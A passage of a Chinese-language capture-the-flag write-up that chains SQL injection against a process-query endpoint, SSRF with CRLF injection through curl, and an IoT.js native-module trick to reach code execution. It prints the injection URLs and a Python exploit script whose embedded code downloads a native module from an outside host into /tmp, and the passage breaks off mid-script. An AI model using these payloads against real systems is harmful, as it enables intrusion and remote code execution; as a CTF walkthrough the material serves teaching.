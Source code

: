 ```
http://47.57.246.66:12321/?str=world%27;select%20pid,port%20from%20listening_ports;--+
查看监听的端口 16324 => ssrf => curl库 => CRLF(因为只有两个字段 只支持HTTP)
```

然后据说这一步开始就读取linux系统的配置文件了。

```
select * from processes; 
```

有人问我这是怎么发现，我就说可以查看一下系统进程

![image-20211123234424319](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211123234424319.png)

![image-20211123234553162](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211123234553162.png)

大家记住这两个点的位置，在你本地实际搭建了iotjs就会发现他的作用，下面就是iotjs的本地测试了。

## 0x02 iotjs突破

![image-20211123235128309](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211123235128309.png)

我们知道他可以操作文件和发起http请求但是不能RCE执行命令，我们继续看文档，把刚才的构造参数放到文档里面搜索。

```
DENABLE_MODULE_NAPI=ON
```

Building N-API with IoT.js

You need to append the `--n-api` parameter to the build command (e.g. `tools/build.py --n-api`).
This automatically adds the N-API module to IoT.js.

To run N-API test you should also append `--n-api` after the `testrunner.py`.

看看了文档 大概意思就是我们可以自定义模块，我们就来插入，然后导入执行就可以了。

![image-20211123235650725](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211123235650725.png)

![image-20211123235955117](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211123235955117.png)

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
import requests
import random
import base64


# SQL Injection
url = "http://47.57.246.66:12321/?str=world';{};--"
# Payload from other team
payload = "select group_concat(result)from curl where url='http://127.0.0.1:16324' and user_agent='\n\n\n\n\n\n\n\n\n\n\n\n\n\n{node}\n\n\n\n\n\n\n\n\n\n\n'"


"""
Write native module to server

fs = require("fs");
http = require("http")

f = fs.openSync("/tmp/styp.node", "w")
http.get({
    host: "158.101.144.10",
    port: 80,
    path: "/styp.node?exp"
```